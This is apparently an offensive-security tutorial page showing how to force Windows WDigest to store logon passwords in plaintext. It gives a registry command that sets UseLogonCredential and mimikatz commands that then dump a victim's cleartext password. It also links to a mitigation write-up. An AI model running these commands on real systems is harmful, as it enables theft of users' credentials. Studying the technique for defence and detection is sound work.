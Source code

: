 # Forcing WDigest to Store Credentials in Plaintext

As part of WDigest authentication provider, Windows versions up to 8 and 2012 used to store logon credentials in memory in plaintext by default, which is no longer the case with newer Windows versions.

It is still possible, however, to force WDigest to store secrets in plaintext.

## Execution

Let's first make sure that wdigest is not storing credentials in plaintext on our target machine running Windows 10:

{% code title="attacker@victim" %}
```csharp
sekurlsa::wdigest
```
{% endcode %}

Note the password field is null:

![](../../.gitbook/assets/mimikatz-2.2.0-x64-oe.eo-5_13_2019-10_42_39-pm.png)

Now as an attacker, we can modify the following registry key to force the WDigest to store credentials in plaintext next time someone logs on to the target system:

{% code title="attacker@victim" %}
```csharp
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
{% endcode %}

![](../../.gitbook/assets/mimikatz-2.2.0-x64-oe.eo-5_13_2019-10_44_54-pm.png)

Say, now the victim on the target system spawned another shell:

{% code title="victim@local" %}
```csharp
runas /user:mantvydas powershell
```
{% endcode %}

Running mimikatz for wdigest credentials now reveals the plaintext password of the victim user `mantvydas`:

![](../../.gitbook/assets/wdigestdemo.gif)

## References

{% embed url="https://p16.praetorian.com/blog/mitigating-mimikatz-wdigest-cleartext-credential-theft" caption="" %}

